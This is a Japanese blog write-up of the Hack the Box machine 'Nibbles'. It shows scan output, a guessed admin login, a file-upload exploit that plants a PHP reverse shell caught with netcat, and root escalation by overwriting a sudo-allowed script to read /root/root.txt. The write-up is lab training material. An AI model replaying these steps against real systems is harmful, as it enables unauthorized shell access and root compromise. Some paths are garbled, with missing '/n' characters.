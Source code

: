 ```yaml
---
title: "【Hack the Box write-up】Nibbles"
date:  "2020-06-14T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Nibbles"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```


## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)

## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です

![スクリーンショット 2020-06-14 15.33.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6ef7b88f-0f70-dc79-963c-a77031628fc7.png)

評価が低いマシンでした。
~~ちなみに僕も「ん？」って感じました。~~



## nmap 

```
# Nmap 7.80 scan initiated Sun Jun 14 01:12:49 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/AutoRecon/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /home/kali/AutoRecon/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Increasing send delay for 10.10.10.75 from 0 to 5 due to 13 out of 43 dropped probes since last increase.
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.25s latency).
Scanned at 2020-06-14 01:12:50 EDT for 54s
Not shown: 998 closed ports![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/c70eda51-c6d3-4f29-95dc-356558d755a9.png)
![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1ca9748c-0749-b0f4-8355-745b6e79c3a8.png)

Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share map
Service detection performed. Please report any incorrect results at https:/ map.org/submit/ .
# Nmap done at Sun Jun 14 01:13:44 2020 -- 1 IP address (1 host up) scanned in 54.58 seconds

```

## 80番
![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/0e3a3060-51ea-79fb-f818-1e98868722eb.png)

![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/b7d5c7aa-5ed2-42b0-e87e-fd6e4e2f773a.png)

##  ibbleblog/を開く

![スクリーンショット 2020-06-14 15.32.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7f2ba659-466d-6cb4-bd49-81ef6f8c09bf.png)

nibbleblog のこの version には File Upload Vulnerability があります
https://www.rapid7.com/db/modules/exploit/multi/http ibbleblog_file_upload

## gobuster

```
kali@kali:~$ gobuster dir -u http://10.10.10.75 ibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75 ibbleblog/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/06/14 02:32:21 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
[ERROR] 2020/06/14 02:33:28 [!] Get http://10.10.10.75 ibbleblog/servlets.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75 ibbleblog/xFS.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75 ibbleblog/5260.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75 ibbleblog ews_Readers.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:13:08 [!] Get http://10.10.10.75 ibbleblog/prag: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:27:14 [!] Get http://10.10.10.75 ibbleblog/DWT-SpectacularRed.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:43:26 [!] Get http://10.10.10.75 ibbleblog/t10098.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/06/14 03:44:49 Finished
===============================================================

```

## /admin.php開く

Login のフォームが出てきます
他のページを割とくまなく探しましたが、credential が出てこず、数回 login 失敗するとブロックされるため hydra 等も使えません。
default credential も存在しないため、低評価であることから、まさかこれは guess か〜？と思ってぽちぽちしてたら、admin ibbles で通りました。う〜んこれは厳しい…

（数回 login 失敗するとブロック→hydra 等使えない　= bruteforce しなくてもどこかに credentials があるよって言うメッセージなんだろーな〜と思ったんですけどね…）~~（低評価の由縁はこれか〜）~~

## さっきのFile Upload Vulnerability

https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

これを参考に以下の php の reverseshell のスクリプトを上げます
https://github.com/pentestmonkey/php-reverse-shell

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 55886
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:35:30 up  3:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler


```

shell が取れました

## /home ibbler/personal.zip

/home ibbler/personal.zip を unzip します

```
nibbler@Nibbles:/home ibbler$ find personal
find personal
personal
personal/stuff
personal/stuff/monitor.sh
```
monitor.sh と言うのが出てきます（中身はあんま関係ないので割愛

## sudo -l

```
nibbler@Nibbles:/home ibbler/personal/stuff$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home ibbler/personal/stuff/monitor.sh

```

お👀

## monitor.shを書き換え

```
nibbler@Nibbles:/home ibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
<er/personal/stuff$ echo "cat /root/root.txt" > monitor.sh                   
nibbler@Nibbles:/home ibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c*****************
```

root.txt が取れました

## 終わりに
う〜ん、login にそこそこの時間を費やしました…
精進します

 
